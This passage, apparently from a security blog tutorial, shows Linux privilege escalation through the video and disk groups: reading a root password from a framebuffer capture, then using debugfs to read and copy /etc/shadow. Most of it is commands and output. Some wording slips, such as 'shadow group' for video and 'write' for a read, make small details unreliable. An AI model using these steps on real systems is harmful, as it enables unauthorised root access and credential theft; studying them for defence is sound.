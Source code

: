 Now we can see it in GIMP:

{{< image src="/images/posts/gimp-video-group.png" caption="GIMP Video Group" src_s="/images/posts/gimp-video-group.png" src_l="/images/posts/gimp-video-group.png" >}}

Since we can see the password, we can escalate privileges by changing to the root user:

```shell
user@pwn:~$ su root
Password: 
root@pwn:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@pwn:/home/user# 
```

Remove the current user from the shadow group:

```shell
sudo gpasswd -d user video
```

Reboot the system to apply the change:

```shell
reboot
```

# Privilege Escalation via Disk

Disks can be managed via the disk group.

Make the current user a member of the disk group:

```shell
sudo usermod -aG disk user && reboot
```

This group grants us access to all of the machine's data.
 
> Files:`/dev/sd[a-z][1-9]`
 
Determine the location of the root folder:
 
```shell
user@pwn:~/Desktop$ df -h | grep "/$"
/dev/sda5        20G  7.8G   11G  44% /
```

Connect to the mounted file system as follows:

```shell
user@pwn:~$ debugfs /dev/sda5
debugfs 1.45.5
debugfs:  cat /etc/shadow
root:$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxx:18918:0:99999:7:::
```

The program `debugfs` allows us to write files as well:

```shell
debugfs:  dump /etc/shadow /tmp/shadow.bak
debugfs:  quit
user@pwn:~$ ls -la /tmp/shadow.bak 
-rw-rw-r-- 1 user user 1565 Oct  7 22:33 /tmp/shadow.bak
user@pwn:~$ cat /tmp/shadow.bak
root:$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxx:18918:0:99999:7:::
daemon:*:18667:0:99999:7:::
bin:*:18667:0:99999:7:::
```
